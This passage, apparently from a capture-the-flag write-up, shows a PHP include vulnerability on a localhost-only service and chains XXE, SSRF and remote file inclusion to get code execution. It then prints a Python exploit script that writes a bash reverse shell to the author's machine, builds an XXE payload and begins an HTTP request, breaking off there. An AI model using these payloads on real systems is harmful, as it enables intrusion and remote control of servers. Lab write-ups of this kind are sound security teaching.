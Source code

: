 ```php
                $data = array('Heartbeat' => array('Ping' => "Pong"));
        }
        echo json_encode($data);
?>
```

### RCE --> Webserver

Now that I had a working LFI script, I wanted to view the service on port 4. Guessing led me to `/var/www/uploads/index.php`.

```php
<?php
if($_SERVER['REMOTE_ADDR'] != "127.0.0.1")
{
        echo "<h1>Under Maintance</h1><p>Please <a href=\"http://" . $_SERVER['SERVER_ADDR'] . ":4/index.php?page=home\">try again</a> later.</p>";
}else{
        $inc = $_REQUEST["page"];
        include($inc.".php");
}
?>
```

It only allows requests from `localhost` to use `include`. Conveniently, XXE + SSRF was used to get here, so RCE is easy since `include` executes PHP code and allows for the `http://` wrapper.

The exploit path is:

1. Use XXE SSRF to visit port 4.
2. Set `page` to a malicious PHP file hosted on my machine.

Here's the exploit script:

```python
import socket

HOST = "10.10.14.19"
PORT = 4444
FILENAME = "evil"
TARGET_HOST = "10.129.136.254"
TARGET_PORT = 56423

php_rev = f"""<?php
exec("bash -c 'bash -i >& /dev/tcp/{HOST}/{PORT} 0>&1'")
?>"""
php_file = open(FILENAME + ".php", "w")
php_file.write(php_rev)
php_file.close()

xxe = f"""
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://localhost:4/?page=http://{HOST}/{FILENAME}">
%sp;
%param1;
]>
<r>&exfil;</r>

"""

request = f"""POST / HTTP/1.1
Host: {TARGET_HOST}:{TARGET_PORT}
Content-Length: {len(xxe)}
"""
```